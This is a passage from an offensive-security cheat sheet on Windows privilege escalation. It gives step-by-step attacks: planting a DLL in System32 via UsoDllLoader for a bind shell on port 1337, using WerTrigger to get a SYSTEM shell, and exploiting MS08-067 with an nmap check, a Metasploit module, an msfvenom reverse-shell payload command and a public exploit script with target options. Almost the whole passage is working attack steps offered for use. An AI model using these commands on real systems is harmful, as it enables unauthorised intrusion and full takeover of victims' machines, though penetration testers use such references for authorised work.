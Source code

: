 #### Exploit

1. Build https://github.com/itm4n/UsoDllLoader
    * Select Release config and x64 architecure.
    * Build solution.
        * DLL .\x64\Release\WindowsCoreDeviceInfo.dll
        * Loader .\x64\Release\UsoDllLoader.exe.
2. Copy `WindowsCoreDeviceInfo.dll` to `C:\Windows\System32\`
3. Use the loader and wait for the shell or run `usoclient StartInteractiveScan` and connect to the bind shell on port 1337.


### WerTrigger

> Weaponizing for privileged file writes bugs with Windows problem reporting

1. Clone https://github.com/sailay1996/WerTrigger
2. Copy `phoneinfo.dll` to `C:\Windows\System32\`
3. Place `Report.wer` file and `WerTrigger.exe` in a same directory.
4. Then, run `WerTrigger.exe`.
5. Enjoy a shell as **NT AUTHORITY\SYSTEM**


## EoP - Common Vulnerabilities and Exposure

### MS08-067 (NetAPI)

Check the vulnerability with the following nmap script.

```c
nmap -Pn -p445 --open --max-hostgroup 3 --script smb-vuln-ms08-067 <ip_netblock>
```

Metasploit modules to exploit `MS08-067 NetAPI`.

```powershell
exploit/windows/smb/ms08_067_netapi
```

If you can't use Metasploit and only want a reverse shell.

```powershell
https://raw.githubusercontent.com/jivoi/pentest/master/exploit_win/ms08-067.py
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=443 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f py -v shellcode -a x86 --platform windows

Example: MS08_067_2018.py 192.168.1.1 1 445 -- for Windows XP SP0/SP1 Universal, port 445
Example: MS08_067_2018.py 192.168.1.1 2 139 -- for Windows 2000 Universal, port 139 (445 could also be used)
Example: MS08_067_2018.py 192.168.1.1 3 445 -- for Windows 2003 SP0 Universal
Example: MS08_067_2018.py 192.168.1.1 4 445 -- for Windows 2003 SP1 English
Example: MS08_067_2018.py 192.168.1.1 5 445 -- for Windows XP SP3 French (NX)
Example: MS08_067_2018.py 192.168.1.1 6 445 -- for Windows XP SP3 English (NX)
Example: MS08_067_2018.py 192.168.1.1 7 445 -- for Windows XP SP3 English (AlwaysOn NX)
python ms08-067.py 10.0.0.1 6 445
```
